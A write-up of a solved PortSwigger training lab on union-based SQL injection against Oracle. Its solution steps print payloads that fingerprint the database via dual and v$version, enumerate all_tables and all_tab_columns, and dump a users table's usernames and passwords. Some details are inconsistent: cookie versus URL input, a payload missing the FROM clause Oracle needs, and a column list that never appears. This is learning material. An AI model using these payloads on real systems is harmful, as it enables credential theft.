



# SQL injection attack, listing the database contents on Oracle

**Category:** Web Exploitation — SQL Injection  
**Difficulty:** Practitioner
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle`

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

Hint:
On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual 


---

## Reconnaissance

- What does the application do? 
    - Still the same basic shop website
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - there is no input field (account login is back) but the user can input text into the url as before. The real input for the sqli happens in the cookie though.
- What happens with normal input?
    - inputting a normal word instead of the given categories prints the word on the page and shows no results, inputting the given categories works like it should

---

## Analysis

#### Technology Stack
```
Database:   Oracle as instructed
Input:      URL
Behavior:   Union-based SQLi
```

#### Vulnerability

- What exactly is vulnerable and why?
    
As per the lab instructions the category filter is vulnerable. 
It probably looks like this:
```sql
SELECT * FROM products WHERE category = '[input]'
```

---

## Solution

### Step 1 - Fingerprinting the database

```sql
category=' UNION SELECT NULL, NULL from dual-- -
```
suggest it is an Oracle database (needing `from` is usually oracle) and since three `NULLs` throw an error, it is evident that there are two columns

Confirming there are two string columns:
```sql
category=' UNION SELECT 'a', 'a'-- -
```

The following confirms it is an Oracle-database:
```sql
category=' UNION SELECT banner, null from v$version-- -
```



---

### Step 2 - Enumeration

This returns every table:
```sql
category=' UNION SELECT table_name, NULL FROM all_tables-- -
```
this returns a lot of tables. Most start with prefixes related to oracle databases. Searching for user reveals `USERS_NHYHAM` which is probably the user table.

To get the columns from this table:
```sql
category=' UNION SELECT column_name, NULL from all_tab_columns WHERE table_name = 'USERS_NHYHAM'-- -
```
This reveals 3 columns:




### Step 3 - Extract / Exploit
Final step:
```sql
category=' UNION SELECT USERNAME_AAXYWR, PASSWORD_QWNCTV from USERS_NHYHAM-- -
```



---

## Real World Impact

This showcased a perfect example of how dangerous the inbuilt functions of the databases are. Some simple fingerprinting followed by the correct queries to reveal all the databases, revealed the database with users and passwords. In a real scenario this is catastrophic for any business. Now add to this that not only the usernames and passwords are revealed but any database connected to the website and it becomes even more obvious how dangerous this is.

---

## Learnings

- Biggest learning is, that the structure of oracle makes it a bit different to exploit. Oracle has no `information_schema` but `all_tables` and `all_tab_columns`. Same two step enumeration but different names. The biggest difference is every query needing `from`. 
